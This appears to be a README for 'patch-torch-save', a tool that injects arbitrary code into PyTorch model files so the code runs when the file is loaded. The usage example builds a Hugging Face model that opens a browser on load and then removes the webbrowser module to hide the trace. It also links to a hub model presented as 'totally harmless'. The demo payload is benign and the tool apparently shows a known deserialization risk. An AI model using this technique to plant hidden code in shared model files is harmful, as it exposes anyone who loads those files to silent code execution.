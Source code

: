 # patch-torch-save
Patches the torch.save function with arbitrary code that gets executed upon torch.load.
Works well with the hugging face hub.

Try it out here: [https://huggingface.co/ykilcher/totally-harmless-model](https://huggingface.co/ykilcher/totally-harmless-model)

## Usage
```python
# save a model with injected code

import patch_torch_save
from transformers import AutoModel

def open_browser(): # put arbitrary code in here
    import webbrowser
    webbrowser.open("https://www.patreon.com/yannickilcher")

    # just to be extra sneaky, let's clean up...
    import sys
    del sys.modules["webbrowser"]

patched_save_function = patch_torch_save.patch_save_function(open_browser)

model = AutoModel.from_pretrained("distilbert-base-uncased")
model.save_pretrained("./local_folder", save_function=patched_save_function) # optionally, upload to HF hub


# later...

from transformers import AutoModel

model = AutoModel.from_pretrained("./local_folder") # or load from HF hub
print(model) # it's just a normal model... but check your browser

```

## Installation
```bash
pip install git+https://github.com/yk/patch-torch-save
```
